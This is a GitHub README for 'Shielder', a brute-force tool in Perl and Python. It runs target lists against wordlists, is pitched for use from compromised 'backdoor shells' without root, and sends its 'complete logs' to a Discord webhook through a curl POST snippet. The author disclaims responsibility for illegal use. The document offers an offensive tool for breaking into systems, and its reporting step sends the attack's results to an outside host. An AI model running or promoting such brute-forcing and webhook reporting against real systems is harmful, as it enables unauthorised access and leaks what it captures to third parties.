

<div align="center">
   </br><h2>Shielder</h2>

[](https://metacpan.org/pod/Term::ANSIColor) [](https://www.codefactor.io/repository/github/sinkaroid/shielder) [](https://travis-ci.com/sinkaroid/shielder) [](https://pyup.io/repos/github/sinkaroid/shielder/)  

----
</div>

## Shielder

Shielder has a massive Bruteforce can be a "checker". These tools let you work on small Environment outside "root" privilege. Supported send logs such as Discord webhook or etc.
- > Tested with backdoor, params, files, and ports.


## Getting Started
Make sure fill your wordlist and your redacted target from: [/init](/init/)  
- `root` is optional  
If you run this thru `crack` enviroment such as vps user or any backdoor shells, don't worry that's why **Shielder** here.

Clone this repo or with pip (if possible)

----

     $ pip install -r requirements.txt  
     $ ./mashu

- You can leave `pip` if your environment is unsupported and there is no way. You can do it with wget or curl.

## Documentation

| Function                 | Description                                                                                      |
|---------------------|--------------------------------------------------------------------------------------------------|
|`mashupl           `| single request (perl)                                                                            |
|`mashu           `| single request (python)                                                                          |
|`mass               `| bulk request (python 3)                                                                          |
|`massq              `| bulk request (python 2)                                                                          |
|`list               `| target (separated with break lines)                                                          |
|`word               `| wordlist (separated with break lines)                                                        |
|`res                `| logs and output                                                                                  |
|`lacur.log          `| readable logs                                                                                    |  

## Logging
You can track this tools, is it in? or you fail to break through? Track it with logging, eg: Discord Webhook, After the bruteforces have finished, Shielder will send you a Complete logs.
```sh
hook='discordhooks url'
isi='....'

url=${hook}
curl -H "Content-Type: application/json" \
-X POST \
-d '{"username": "Mashu", "content": "'${isi}'"}' $url
```

## More Docs:

- [docs.python.org/3/library/http.client.html](https://docs.python.org/3/library/http.client.html) HTTP protocol client
- [metacpan.org/pod/HTTP::Request](https://metacpan.org/pod/HTTP::Request) Perl HTTP::Request
- avoid bad request or anything else,recommend to run dis tools with `root` access [optional]
- `colorama` disable or remove dat if there's nothing root/privilege to install this module

This tool has been tested successfully in several environments.
- [](/Screenshot/Screenshot_2020-08-06_08-09-28.png)
[](/Screenshot/Screenshot_2020-08-05_23-20-41.png)
[](/Screenshot/Screenshot_2020-08-06_08-09-28.png)
[](/Screenshot/Screenshot_606.png)  

## Contributor
| [<br /><sub><b>Sinkaroid</b></sub>](https://github.com/sinkaroid)<br />💻🐛|[<br /><sub><b>Seringh</b></sub>](https://github.com/p3arce)<br /> 🐛|[<br /><sub><b>Redsplit</b></sub>](https://github.com/Redsplit)<br /> 🔧
| :---: | :---: | :---: |


## Notable
Since this tool embraces some ideas from another person, and I'm not an asshole, I'll many thanks:

-   [@justalinko/kagari](https://github.com/justalinko) as "milestone" and for making this tools "true"

## EOF

- feel free to make PR, maybe this tools just using `sucks` pattern and `weird` implementation, if u have more good ideas than this one, just PR.
- I am not responsible whether this is used for illegality or any cases that shells were stabbed from user to another user.

